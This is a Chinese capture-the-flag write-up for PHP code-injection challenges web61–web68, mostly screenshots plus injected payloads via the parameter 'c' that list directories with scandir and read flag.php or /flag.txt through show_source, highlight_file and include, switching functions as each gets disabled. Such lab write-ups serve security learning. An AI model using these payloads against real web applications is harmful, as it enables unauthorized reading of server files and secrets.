### web61

开启容器
`c=print_r(scandir('./'));`

```php
c=show_source('flag.php');
c=highlight_file('flag.php');
```

与上述题目一样


### web62

与上题一样


### web63

与上题一样


### web64



### web65



### web66

`c=print_r(scandir('./'));`

```php
c=show_source('flag.php');
c=highlight_file('flag.php');
```

这次有所变数


查看路径



查看根目录
`c=print_r(scandir("/"));`

找到 flag.txt


直接访问即可

`c=highlight_file('/flag.txt');`



### web67

开启容器



`print_r`被禁用

这边`var_dump(scandir("/"))`可以查看路径

`c=var_dump(scandir("/"));`

同样在 flag.txt


`c=highlight_file('/flag.txt');`

### web68

开启容器



用了这么久的`highlight_file()`、`show_source()`被 ban



`c=var_dump(scandir("/"));`
看目录可用



还可以用`include`
`c=include('/flag.txt'); `


